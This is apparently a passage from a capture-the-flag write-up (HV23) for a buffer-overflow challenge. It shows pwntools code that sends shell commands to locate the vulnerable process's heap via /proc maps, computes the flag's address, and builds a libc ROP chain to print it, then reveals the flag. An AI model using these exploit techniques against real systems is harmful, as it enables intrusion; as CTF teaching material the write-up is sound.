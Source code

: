 ```python
io.sendline(b"PID=$(ps -ef | grep -e vuln | grep -v grep | grep -v socat | tr -s ' ' | cut -d ' ' -f2)")
io.sendline(b"echo ${PID}")
io.sendline(b"cat /proc/${PID}/maps | grep heap")
io.sendline(b"exit")
```

All we have to do now, is to calculate the address on the heap that contains the actual flag content (the offset is
always the same):

```python
heap_addr = io.recvline().decode()
heap_addr = int(heap_addr.split('-')[0], 16)
heap_addr = heap_addr + 0x485
```

And now we can finally print the flag file content:

```python
rop = ROP(libc)
rop.raw(ret)
rop.puts(heap_addr)
```

The complete intended solution can be found in [exploit_intended.py](exploit_intended.py) and the flag
was `HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}`.
